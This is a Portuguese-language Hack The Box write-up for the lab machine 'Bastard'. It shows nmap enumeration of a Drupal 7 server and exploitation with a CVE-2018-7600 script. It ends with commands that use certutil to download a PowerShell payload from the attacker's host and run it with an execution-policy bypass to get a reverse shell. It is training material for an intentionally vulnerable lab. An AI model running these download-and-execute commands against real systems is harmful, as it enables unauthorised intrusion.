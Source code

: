 ```yaml
---
title:     "Hack The Box - Bastard"
tags: [windows,medium]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/1.jpg)

## Enumeration

Inicialmente, utilizamos o nmap para obter informacoes por exemplo: version, ports, status, vulns...

```
root@kali:~/HTB-Windows/bastard# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:06 EDT
Nmap scan report for 10.10.10.9
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 430.79 seconds
```

Um novo scan apenas com as portas encontradas e assim obter versionamento.

```
oot@kali:~/HTB-Windows/bastard# nmap -sV -p80,135 -oN nmap/version 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 23:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.19s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.51 seconds
```

Navegando ate o servido HTTP na porta 80, indentificco um DRUPAL

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/2.jpg)

Huuuuuum... Veriricando o source do site eu vejo que trata-se de um **DRUPAL 7** e de acordo com minha experiencia existe exploits pra versao.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/3.jpg)

## Find exploits

Uma busca rapida encontramos varias formas de explorar

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/4.jpg)


## Exploitation

Encontrei um exploit interessante e precisamos testar **CVE-2018-7600**

***reference*** https://github.com/pimps/CVE-2018-7600.git

Realmente eh vulneravel

`python drupa7-CVE-2018-7600.py -c whoami http://10.10.10.9/`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/5.jpg)

## Reverse Shell

Estou um tempinho tentando transferir arquivos para maquina e assim obter uma reverse shell

Acabei de fazer um teste e ver se o alvo se comunicava de volta comigo e sim, esta tudo ok.. preciso continuar tentando encontrar uma maneira de transferir arquivos..

AHhh, lembrando que eu ja dei uma verificada rapidas nos arquivos encontrados no diretorio do drupal.

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/6.jpg)

Consegui usando o certutil

`python drupa7-CVE-2018-7600.py -c "certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1" http://10.10.10.9/`

`certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/7.jpg)

Enfim pegamos nossa reverse shell

`python drupa7-CVE-2018-7600.py -c "powershell.exe -exec bypass .\shell.ps1" http://10.10.10.9/`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/8.jpg)



